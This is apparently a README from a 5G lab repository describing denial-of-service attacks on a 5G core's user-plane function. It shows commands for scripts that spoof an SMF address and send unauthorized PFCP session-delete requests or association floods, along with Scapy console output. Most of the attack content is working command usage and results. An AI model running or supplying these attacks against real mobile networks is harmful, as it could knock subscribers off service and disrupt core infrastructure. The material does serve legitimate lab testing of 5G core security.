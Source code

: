 # PFCP Based DOS Attacks

These attacks are based on but not exactly the same as those of todo (cite pfcp paper) however instead of taking over the SMF we will just spoof an IP address and act as a second UPF that connects and then commits the unauthorized PFCP based attacks.

These attack work from either the UE or CORE vm you just need the UPF ip address. You only need to not use the same IP as the ligitimate SMF if you don't have the ability to stop the real SMF. Also you need to run and have scapy installed with root provalages to use the functionalities needed.

## Unauthorized PFCP Session Delete Request

Here we connect to a or multiple UPFs and send unauothrized PFCP session delete requests. First we send an association request and then either flood SEIDs or target a specific SEID. Below you can see the standard use. 

```console
user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 delete_pfcp_session.py -h
sudo python3 delete_pfcp_session.py -s <source_ip> -d <destination_ip> -t <target seid (optional else will flood)> -f <flood range>

user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 delete_pfcp_session.py -s 10.0.14.10  -d 10.0.17.1 -t 3 #targeting the SEID on upf 10.0.17.1

.
Sent 1 packets.
Sending association request to UPF at:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  3  To upf:  10.0.17.1

user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 delete_pfcp_session.py -s 10.0.14.10  -d 10.0.17.1,10.0.21.1 -f 0,3 #Flood seid 0-3 to both ips 10.0.17.1 and 10.0.21.1

.
Sent 1 packets.
Sending association request to UPF at:  10.0.17.1
.
Sent 1 packets.
Sending association request to UPF at:  10.0.21.1
.
Sent 1 packets.
Sending session delete request for SEID:  0  To upf:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  0  To upf:  10.0.21.1
.
Sent 1 packets.
Sending session delete request for SEID:  1  To upf:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  1  To upf:  10.0.21.1
.
Sent 1 packets.
Sending session delete request for SEID:  2  To upf:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  2  To upf:  10.0.21.1

```


![Registerue](/5G/Media/regester_ue_upf_log.gif)

## Flood Associate DOS

Another even simpler attack is to simply flood with association requests from different spoofed ips.

```console
user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 flood_associate.py -d <target IP>
```

![flood associate](../../../../Media/flood_associate_dos.gif)

